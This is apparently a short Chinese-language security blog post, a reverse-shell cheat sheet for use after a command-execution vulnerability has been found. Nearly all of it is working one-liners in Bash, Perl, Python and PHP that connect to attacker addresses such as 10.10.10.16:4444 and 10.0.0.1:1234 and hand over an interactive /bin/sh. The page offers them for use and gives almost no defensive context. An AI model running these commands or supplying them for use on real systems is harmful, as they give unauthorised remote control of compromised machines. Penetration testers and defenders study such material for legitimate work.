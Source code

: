 ```yaml
---
title: '获取shell'
layout: post
tags: 
  - shell
  - command
  - reverseshell
category: 
  - hack
  - sec
comments: true
share: true
---
```


* TOC
{:toc}



在得到命令执行漏洞情况下，需要一个交互式shell。无法添加新的账户，或者写入密钥到`~/.ssh/`文件夹下，下一步就是将bash绑定到TCP端口上进行shell反弹。

# 反弹shell

## Bash

```bash
bash -i >& /dev/tcp/10.10.10.16/4444 0>&1
```

## Perl

```perl
perl -e 'use Socket;$i="10.10.10.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


## PHP

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

